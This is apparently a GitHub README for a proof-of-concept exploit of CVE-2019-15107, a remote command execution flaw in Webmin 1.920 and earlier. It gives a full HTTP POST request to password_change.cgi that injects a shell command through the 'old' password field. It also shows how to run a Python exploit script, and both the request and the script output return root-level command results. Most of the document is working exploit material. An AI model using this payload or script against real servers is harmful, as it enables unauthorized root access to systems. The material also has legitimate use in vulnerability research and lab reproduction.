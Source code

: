 # CVE-2019-15107  Webmin RCE <=1.920

```
1.  Webmin <=1.920
2.  need enable reset Password function
```
`https://10.10.20.166:10000/password_change.cgi`

![](./CVE-2019-15107.gif)



### poc
```
POST /password_change.cgi HTTP/1.1
Host: 10.10.20.166:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://10.10.20.166:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2



<div class="panel-body">
<hr>
<center><h3>Failed to change password : The current password is incorrectuid=0(root) gid=0(root) groups=0(root)
</h3></center>
```
### python usage:
`python CVE_2019_15107.py https://10.10.20.166:10000 cmd`


![](./CVE-2019-15107.jpg)
```
C:\Users\CTF\Desktop>python CVE_2019_15107.py https://10.10.20.166:10000 id

 _______           _______       _______  _______  __     _____       __    _______  __    _______  ______
(  ____ \|\     /|(  ____ \     / ___   )(  __   )/  \   / ___ \     /  \  (  ____ \/  \  (  __   )/ ___  \
| (    \/| )   ( || (    \/     \/   )  || (  )  |\/) ) ( (   ) )    \/) ) | (    \/\/) ) | (  )  |\/   )  )
| |      | |   | || (__             /   )| | /   |  | | ( (___) |      | | | (____    | | | | /   |    /  /
| |      ( (   ) )|  __)          _/   / | (/ /) |  | |  \____  |      | | (_____ \   | | | (/ /) |   /  /
| |       \ \_/ / | (            /   _/  |   / | |  | |       ) |      | |       ) )  | | |   / | |  /  /
| (____/\  \   /  | (____/\     (   (__/\|  (__) |__) (_/\____) )    __) (_/\____) )__) (_|  (__) | /  /
(_______/   \_/   (_______/_____\_______/(_______)\____/\______/_____\____/\______/ \____/(_______) \_/
                          (_____)                              (_____)
                                     python By jas502n



vuln_url= https://10.10.20.166:10000/password_change.cgi

Command Result = uid=0(root) gid=0(root) groups=0(root)
```

### 参考链接：

https://github.com/vulhub/vulhub/tree/master/webmin/CVE-2019-15107
